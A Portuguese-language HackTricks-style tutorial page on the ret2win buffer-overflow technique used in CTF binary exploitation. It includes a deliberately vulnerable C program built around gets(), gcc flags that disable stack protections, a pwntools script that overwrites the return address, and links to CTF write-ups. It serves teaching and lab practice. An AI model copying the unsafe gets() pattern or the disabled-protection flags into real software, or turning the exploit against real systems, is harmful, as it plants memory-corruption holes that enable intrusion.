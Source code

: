 # Ret2win

{{#include ../../../banners/hacktricks-training.md}}

## Informações Básicas

**Ret2win** desafios são uma categoria popular em competições de **Capture The Flag (CTF)**, particularmente em tarefas que envolvem **binary exploitation**. O objetivo é explorar uma vulnerabilidade em um binário dado para executar uma função específica, não invocada, dentro do binário, frequentemente nomeada algo como `win`, `flag`, etc. Esta função, quando executada, geralmente imprime uma flag ou uma mensagem de sucesso. O desafio normalmente envolve sobrescrever o **endereço de retorno** na pilha para desviar o fluxo de execução para a função desejada. Aqui está uma explicação mais detalhada com exemplos:

### Exemplo em C

Considere um programa simples em C com uma vulnerabilidade e uma função `win` que pretendemos chamar:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
Para compilar este programa sem proteções de pilha e com **ASLR** desativado, você pode usar o seguinte comando:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
- `-m32`: Compile o programa como um binário de 32 bits (isso é opcional, mas comum em desafios CTF).
- `-fno-stack-protector`: Desativar proteções contra estouros de pilha.
- `-z execstack`: Permitir a execução de código na pilha.
- `-no-pie`: Desativar Executável Independente de Posição para garantir que o endereço da função `win` não mude.
- `-o vulnerable`: Nomear o arquivo de saída como `vulnerable`.

### Exploit em Python usando Pwntools

Para o exploit, usaremos **pwntools**, um poderoso framework CTF para escrever exploits. O script do exploit criará um payload para transbordar o buffer e sobrescrever o endereço de retorno com o endereço da função `win`.
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
Para encontrar o endereço da função `win`, você pode usar **gdb**, **objdump** ou qualquer outra ferramenta que permita inspecionar arquivos binários. Por exemplo, com `objdump`, você poderia usar:
```sh
objdump -d vulnerable | grep win
```
Este comando mostrará a montagem da função `win`, incluindo seu endereço inicial.&#x20;

O script Python envia uma mensagem cuidadosamente elaborada que, quando processada pela `vulnerable_function`, transborda o buffer e sobrescreve o endereço de retorno na pilha com o endereço de `win`. Quando `vulnerable_function` retorna, em vez de retornar para `main` ou sair, ele salta para `win`, e a mensagem é impressa.

## Proteções

- [**PIE**](../../common-binary-protections-and-bypasses/pie/) **deve ser desativado** para que o endereço seja confiável em todas as execuções ou o endereço onde a função será armazenada não será sempre o mesmo e você precisaria de algum leak para descobrir onde a função win está carregada. Em alguns casos, quando a função que causa o transbordamento é `read` ou similar, você pode fazer uma **Sobrescrita Parcial** de 1 ou 2 bytes para mudar o endereço de retorno para ser a função win. Devido ao funcionamento do ASLR, os últimos três nibbles hexadecimais não são randomizados, então há uma **chance de 1/16** (1 nibble) de obter o endereço de retorno correto.
- [**Stack Canaries**](../../common-binary-protections-and-bypasses/stack-canaries/) também devem ser desativados ou o endereço de retorno EIP comprometido nunca será seguido.

## Outros exemplos & Referências

- [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
- [https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html](https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html)
- 32 bits, sem ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html)
- 64 bits com ASLR, com um leak do endereço do bin
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html)
- 64 bits, sem ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html)
- 32 bits, sem ASLR, transbordamento pequeno duplo, primeiro para transbordar a pilha e aumentar o tamanho do segundo transbordamento
- [https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
- 32 bits, relro, sem canário, nx, sem pie, string de formato para sobrescrever o endereço `fflush` com a função win (ret2win)
- [https://guyinatuxedo.github.io/15-partial_overwrite/tamu19_pwn2/index.html](https://guyinatuxedo.github.io/15-partial_overwrite/tamu19_pwn2/index.html)
- 32 bits, nx, nada mais, sobrescrita parcial de EIP (1Byte) para chamar a função win
- [https://guyinatuxedo.github.io/15-partial_overwrite/tuctf17_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial_overwrite/tuctf17_vulnchat2/index.html)
- 32 bits, nx, nada mais, sobrescrita parcial de EIP (1Byte) para chamar a função win
- [https://guyinatuxedo.github.io/35-integer_exploitation/int_overflow_post/index.html](https://guyinatuxedo.github.io/35-integer_exploitation/int_overflow_post/index.html)
- O programa está apenas validando o último byte de um número para verificar o tamanho da entrada, portanto, é possível adicionar qualquer tamanho desde que o último byte esteja dentro da faixa permitida. Então, a entrada cria um transbordamento de buffer explorado com um ret2win.
- [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
- 64 bits, relro, sem canário, nx, pie. Sobrescrita parcial para chamar a função win (ret2win)
- [https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/](https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/)
- arm64, PIE, dá um leak de PIE, a função win é na verdade 2 funções, então gadget ROP que chama 2 funções
- [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/)
- ARM64, off-by-one para chamar uma função win

## Exemplo ARM64

{{#ref}}
ret2win-arm64.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
